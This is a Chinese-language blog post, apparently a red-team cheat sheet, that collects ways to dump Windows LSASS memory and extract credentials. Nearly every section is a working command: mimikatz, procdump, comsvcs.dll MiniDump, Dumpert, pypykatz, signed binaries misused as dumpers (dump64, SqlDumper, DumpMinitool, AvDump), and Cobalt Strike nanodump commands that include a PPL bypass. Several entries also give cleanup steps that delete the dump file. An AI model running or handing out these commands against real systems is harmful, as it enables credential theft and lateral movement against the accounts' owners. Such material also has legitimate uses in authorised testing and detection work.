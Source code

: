 ```yaml
---
layout: post
title: dump lsa聚合
category: ['lsadump','Done']

---
```




## 解密lsass内存

```
# mimikatz
sekurlsa::Minidump lsassdump.dmp
sekurlsa::logonPasswords full
```



## wce导出hash

```
# 仅支持Windows XP，2003，Vista，7、2008和Windows 8

wce.exe -o file.txt
wec.exe
```



## Procdump

```
# 管理员cmd
procdump  -accepteula -ma lsass.exe lsass_dump

procdump -accepteula -ma 720 lsass.dmp

```



## comsvcs.dll

```
# powershell运行
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass.dmp full

# 清理
Remove-Item $env:TEMP\lsass.dmp -ErrorAction Ignore
```



## dumpert

```
# exe
Outflank-Dumpert.exe

# dll
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

```



## 任务管理器转存

![image-20220409122415996](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220409122415996.png)



## mimikatz

```
# cmd
mimikatz_exe "sekurlsa::minidump lsass.dump" "sekurlsa::logonpasswords full" exit
```



## pypykatz

```
# python3
pip install pypykatz

# Parsing minidump file of the LSASS process:
# 从dmp里解密
pypykatz lsa minidump <minidump file>

# Dumping LIVE system LSA secrets:
pypykatz live lsa
```



## Out-Minidump.ps1

```
import-module Out-Minidump.ps1
get-process lsass | Out-Minidump

Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore
```

![image-20220409123740776](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220409123740776.png)



## dump64.exe

一个lolbins：``C:\Program Files (x86)\Microsoft Visual Studio\Installer\Feedback\``

```shell
"C:\Program Files (x86)\Microsoft Visual Studio\Installer\Feedback\dump64.exe" <pid> c:\users\zteam\Desktop\out.dmp
```



## SqlDumper.exe

lolbins：``C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe``

```
# Full dump file
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x01100

# Mini-dump file
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x0120

# Mini-dump file that includes indirectly referenced memory.
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x0128

# Filtered dump file
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x8100
```



## nanodump

https://github.com/helpsystems/nanodump

```
# fork
beacon> nanodump --fork --write C:\lsass.dmp

# MalSecLogon
beacon> nanodump --malseclogon --dup --fork --binary C:\Windows\notepad.exe --valid


# ppl bypass
beacon> nanodump_ppl -v -w C:\Windows\Temp\lsass.dmp
```





## HandleKatz

https://github.com/codewhitesec/HandleKatz

```
loader.exe --pid:744 --outfile:dump.obfuscated
```

loader需要自己改改



## DumpMinitool

又一个lolbins：``C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\Extensions\TestPlatform\Extensions\DumpMinitool.exe``

```
DumpMinitool.exe --file c:\users\public\111.txt --processId 744 --dumpType Full

# 解密
python3 Decoder.py -input dump.obfuscated -output 111.txt

# 可以用pypykatz读取
pypykatz lsa minidump 111.txt
```



## AvDump

AvDump.exe是Avast杀毒软件中自带的一个程序，可用于转储指定进程（lsass.exe）内存数据，它带有Avast杀软数字签名。

```
AvDump.exe --pid 980 --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file lsass.dmp
```



## MirrorDump

https://github.com/CCob/MirrorDump

无需本地dll支持



